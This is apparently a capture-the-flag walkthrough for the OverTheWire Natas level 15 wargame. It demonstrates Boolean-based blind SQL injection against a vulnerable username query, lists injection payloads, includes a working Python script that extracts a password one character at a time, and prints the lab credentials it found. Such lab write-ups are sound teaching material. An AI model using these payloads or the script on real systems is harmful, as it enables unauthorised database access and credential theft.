

# Natas Level 15 → Level 16

### Challenge

**URL: http://natas15.natas.labs.overthewire.org/**

This level uses Boolean-based blind SQL injection. The application prints no database output and only returns "This user exists" or "This user doesn't exist." We extract the password by asking True/False questions against: `$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";`

---

### Walkthrough

1. We can test the vulnerability by injecting logic into the `username` field:
   - Input: `natas16" AND "1"="1` (Result: This user exists.)
   - Input: `natas16" AND "1"="2` (Result: This user doesn't exist.)

   This confirms we can use the `AND` operator to test conditions regarding the `password` column.

2. Use `LIKE BINARY` to check whether the password starts with a given character. `BINARY` makes the comparison case-sensitive.
   - Example payload: `natas16" AND password LIKE BINARY "a%`
   - If the result is "This user exists," the password starts with 'a'. If not, we try 'b', 'c', and so on.

3. Since the password is 32 characters long, a Python script can extract it automatically:

   ```
   import requests
   from string import ascii_letters, digits

   target = "http://natas15.natas.labs.overthewire.org/"
   auth = ("natas15", "AwWp0uS77S277Y89SmdStandardPass") # Replace with current password
   chars = ascii_letters + digits
   password = ""

   print("Extracting password...")

   for i in range(32):
       for char in chars:
           payload = f'natas16" AND password LIKE BINARY "{password + char}%'
           r = requests.post(target, auth=auth, data={"username": payload})

           if "This user exists" in r.text:
               password += char
               print(f"Progress: {password}")
               break

   print(f"Final Password: {password}")
   ```

4. Run the script using your `natas15` credentials to test characters `a-z`, `A-Z`, and `0-9` until all 32 characters of the `natas16` password are found:
     

---

### Credentials Found

- **Username:** `natas16`
- **Password:** `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`
